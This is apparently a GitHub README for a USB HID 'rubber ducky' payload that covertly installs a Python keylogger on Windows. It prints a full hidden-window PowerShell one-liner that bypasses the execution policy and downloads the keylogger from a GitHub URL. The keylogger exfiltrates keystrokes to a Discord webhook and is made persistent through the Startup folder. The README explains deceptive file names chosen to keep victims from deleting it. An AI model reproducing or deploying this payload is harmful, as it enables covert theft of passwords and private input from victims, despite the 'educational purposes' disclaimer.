 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does:

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies:

- Windows
- Python
- User is admin

# How to use:

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the keylog-starter.dd and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal using ``control shift enter`` to open it with admin privelages and enters this string:

```powershell
powershell -w h -NoP -NonI -Exec Bypass -c "mkdir 'C:\system32\' ; cd C:\system32\ ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile C:\system32\sys-file.py ; py -m pip install discordwebhook pynput ; '@echo off', 'start /B pythonw.exe "C:\system32\sys-file.py"' | Set-Content -Path 'C:\system32\startup.bat'
; cp 'C:\system32\startup.bat' '$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' ; Python sys-file.py <your discord webhook here>"
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

### Commands ran:
1. We make a directory called ``system32`` in the C: drive using mkdir ``C:\system32\``. I decided to call it ``system32`` as many people would not want to delete the a folder named system32.
2. Next we enter the directory using ``cd C:\system32\``
3. Then we run `iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile C:\system32\sys-file.py` to download the keylogger and spit it out as sys-file.py (again to trick the user to not deleting the file)
4. After we have the logger we install the needed libraries ``py -m pip install discordwebhook pynput``
5. Then we create a file called startup.bat to run the keylogger on startup ``'@echo off', 'start /B pythonw.exe "C:\system32\sys-file.py"' | Set-Content -Path 'C:\system32\startup.bat'``
6. To make it run at startup we need to copy it to the startup folder using this command ``cp 'C:\system32\startup.bat' '$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'`` this is why we need the user to be admin so we can access the startup folder
7. Last but now least we use this command ``Python sys-file.py <your discord webhook here>"`` to run the keylogger the webhook is being ported as an anrgument and will later saved in a file on the victims computer.
